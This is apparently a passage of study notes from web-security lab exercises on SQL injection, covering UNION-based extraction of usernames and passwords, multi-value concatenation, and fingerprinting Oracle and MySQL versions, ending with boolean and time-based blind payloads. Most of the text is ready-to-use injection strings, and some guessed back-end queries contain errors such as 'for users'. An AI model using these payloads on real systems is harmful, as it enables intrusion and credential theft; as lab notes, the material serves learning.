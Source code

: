 [Final Payload]:
' UNION select username, password from users--

Probable Back-end Query:
`select a, b from table1 UNION select NULL, 'kSzxY4', NULL`

* You should get **administartor username and password here**

-------------------------------------------------------------
-------------------------------------------------------------

### 6.  SQLi: `UNION` attack, retrieving `multiple values` in a `single column`
+ `' order by 3--` errored for there are **2 columns**
+ `' UNION SELECT NULL, 'a'--` didn't error so **2nd column is string**

[Assessed `SQL Query` in Background]:
select a, b from table1

-- - - - - - - - - - - - - - - - - - - - - - - - - - --

```Final_Payloads
' UNION select NULL, username from users--
' UNION select NULL, password from users--
' UNION select NULL, @@version--           <-- ths revealed Postgre is used
' UNION select NULL, username || '*' || password from users--
```

```Probable_Back-end_Queries
select a, b from table1 UNION select NULL, username for users--
select a, b from table1 UNION select NULL, password for users--
select a, b from table1 UNION select NULL, username || '*' || password for users--
```

-------------------------------------------------------------
-------------------------------------------------------------

### 7.  SQLi: Querying the `database type` and `version` on `Oracle`
+ Oracle `SELECT` statement **MUST HAVE** a `FROM` clause
+ Oracle has a **DUAL table** which is a _special table_
+ Oracle `comment` is `--`

``` What_columns_have_text
' UNION SELECT 'a', 'a' from DUAL--
```
``` What_version
' UNION SELECT banner, NULL from v$version--
```

-------------------------------------------------------------
-------------------------------------------------------------

### 8.  SQLi: Querying the `database type` and `version` on `MySQL & Microsoft`
+ MySQL `comment` is `#`


[Final Payload]: ' and (select 'x' from users LIMIT 1)='x'--
[Final Payload]: ' and (select username from users where username='administrator')='administrator'--
[This one worked]: ' || (SELECT sleep(10))--